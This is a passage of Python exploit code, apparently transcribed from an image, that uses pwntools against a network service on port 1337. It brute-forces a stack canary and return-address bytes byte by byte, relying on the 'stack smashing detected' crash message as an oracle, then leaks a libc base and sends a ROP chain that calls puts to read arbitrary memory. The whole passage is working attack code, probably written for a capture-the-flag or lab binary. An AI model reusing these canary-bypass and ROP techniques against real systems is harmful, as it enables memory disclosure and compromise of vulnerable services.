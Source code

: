 ```python
                    output = None
                
                if not output:
                    print(f'NEW CANARY BYTE FOUND:{num}')
                    current_buf = candidate
                    break
    return current_buf[-8:]

def leak_top_bytes(buf):
    current_buf = buf
    candidates = []

    for num2 in range(256):
        for num1 in range(256):
            if num1 & 0xf != 0x0c:  # specialization for first searched byte, as it is half-known
                continue
            with remote('0.0.0.0', 1337) as p:
                candidate = current_buf + num1.to_bytes(1, 'little') + num2.to_bytes(1, 'little')
                p.send(candidate)
                try:
                    output = p.recvuntil(b'*** stack smashing detected ***', timeout=9)
                except Exception:
                    output = None

                if output:
                    print(f'NEW RA BYTES FOUND: {num1} {num2}')
                    # candidates.append((num1, num2))
                    current_buf = candidate
                    return current_buf

def leak_libc(padding, canary):
    # TODO - The call site of __stack_chk_fail is located at offset 0x12fc90
    current_buf = b'\x41' * padding + canary + b'\x42' * 8
    current_buf += b'\x90'
    current_buf = leak_top_bytes(current_buf)

    while len(current_buf) < padding + 16 + 8:
        for num in range(256):
            with remote('0.0.0.0', 1337) as p:
                candidate = current_buf + num.to_bytes(1, 'little')
                p.send(candidate)
                try:
                    output = p.recvuntil(b'*** stack smashing detected ***', timeout=9)
                except Exception:
                    output = None
                if output:
                    print(f'NEW RA BYTE FOUND:{num}')
                    current_buf = candidate
                    break
    return current_buf[-8:]

def read_addr(padding, canary, libc_base, addr):
    buf = b'\x41' * padding + canary + b'\x42' * 8
    buf += struct.pack('<Q', libc_base + libc_pop_rdi_ret)  # TODO: adapt this to libc offset
    buf += struct.pack('<Q', addr)
    buf += struct.pack('<Q', libc_base + libc_puts)  
    with remote('0.0.0.0', 1337) as p:
        p.send(buf)
        p.recvuntil(b'Goodbye!\n')
        time.sleep(0.2)
        result = p.recv()[:-1]
        
    return result
```